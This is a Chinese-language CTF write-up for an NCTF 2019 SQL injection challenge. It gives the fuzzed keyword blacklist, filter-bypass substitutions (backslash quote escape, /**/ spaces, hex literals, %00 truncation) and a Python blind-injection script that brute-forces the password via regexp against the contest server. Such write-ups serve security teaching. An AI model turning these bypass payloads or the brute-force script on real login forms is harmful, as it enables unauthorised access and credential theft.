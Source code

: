 # SQLI
## 考察知识点：
### 1.无法使用select时的注入
### 2.各种关键字替换

### 解题思路
### 1.fuzz
得到过滤名单：
```
"/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|\'|=|
|in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";
```

发现过滤异常严格，连select都被过滤了,采用过滤select时的堆叠注入，但是table|database也被过滤...

### 2.但是这个地方采用的是登陆框的形式，有两个参数可以控制，并且给出了sql语句，就是简单的拼接

### 3.本地实验

虽然单引号被过滤，但是此处不难想到可以转义


![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/9F222969F8D74D47845779DE0B3B383BSQLi1.png)

在本地执行时，regexp会将内容含有a的列匹配出来

## 此时本题的思路就明显了，可以爆破匹配passwd字段的内容。

但是此时还有一个问题，我们无法知道，我们输入的语句是否执行成功

### 4.在靶机进行尝试

```
or-->||
空格-->/**/
'a'-->0x61
最后的单引号-->%00
```

### 5.匹配的内容爆破尝试

![image](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/南邮ctf2019/images/9422BA9EF2F6445C9260447B308BCE96SQLi2.png)

会返回两种内容，推测语句执行成功时，页面不会给出`alert("try to make the sqlquery have its own results")`的提示

### 6.此时可以写出盲注脚本(或者也可以说是爆破)

这里给一下在大佬脚本基础上修改的脚本

```
# python2
# coding=utf-8
import requests

s = requests.session()

url = "http://nctf2019.x1ct34m.com:40005/index.php"
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0',
    'Content-Type': 'application/x-www-form-urlencoded'
}
cookies = {

}

flag = ""
first_num = ""
# strings = '#abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_'

# 将所有字符组合，爆破密码
esay_string = "yeiklnoruvwEIKLNORUVWY0789_"
# esay_string = "adimnADIMN"

#该字符串如果在passwd中，则将他加入组合与其他字符串拼接
# 得到所有属于passwd的字符串组合
def assembly(e):
    res1=''
    for i in e:
        res1 += hex(ord(i))
    res1 = res1.replace("0x", "")
    res1 = "0x" + res1
    # print(res1)
    return res1

for j in range(100):
    # for i in strings:
    for i in esay_string:
        # 此处的chr(0）为空字符，在sql中有截断作用
        # 得到密码中的所有的字符
        # payload = '/**/||passwd/**/regexp/**/{};{}'.format(hex(ord(i)), chr(0))
        # payload = '/**/||username/**/regexp/**/{};{}'.format(hex(ord(i)), chr(0))
        parmy=assembly(flag+i)
        payload = '/**/||passwd/**/regexp/**/{};{}'.format(parmy, chr(0))
        # payload = '/**/||username/**/regexp/**/{};{}'.format(parmy, chr(0))

        data = {
            'username': '\\',
            'passwd': payload
        }
        r = requests.post(url=url, headers=headers, data=data)
        # print payload
        # print r.content.decode("utf-8")

        if "go back to get the password" in r.content.decode("utf-8"):
            # 对全局变量flag进行叠加
            flag=flag+i
            # print r.content.decode("utf-8")
            first_num = first_num + i
            print first_num

```